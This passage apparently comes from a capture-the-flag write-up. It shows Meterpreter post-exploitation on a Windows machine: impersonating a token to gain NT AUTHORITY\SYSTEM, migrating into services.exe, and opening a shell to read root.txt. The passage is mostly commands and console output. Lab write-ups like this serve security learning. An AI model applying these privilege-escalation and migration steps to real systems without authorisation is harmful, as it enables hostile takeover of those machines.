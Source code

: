 Impersonate:

    meterpreter > impersonate_token "BUILTIN\Administrators"
    [-] Warning: Not currently running as SYSTEM, not all tokens will be available
                 Call rev2self if primary process token is SYSTEM
    [+] Delegation token available
    [+] Successfully impersonated user NT AUTHORITY\SYSTEM
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

## Migration

```text
meterpreter > ps
Process List
============

 PID   PPID  Name               Arch  Session  User                     Path
 ---   ----  ----               ----  -------  ----                     ----
 0     0     [System Process]
 ...
 668   580   services.exe       x64   0        NT AUTHORITY\SYSTEM      C:\Windows\System32\services.exe
 ...
```

Migrate:

    meterpreter > migrate 668
    [*] Migrating from 2960 to 668...
    [*] Migration completed successfully.

## Flag

Get the flag:

    meterpreter > shell
    C:\Windows\system32>cd config
    C:\Windows\System32\config>type root.txt
    type root.txt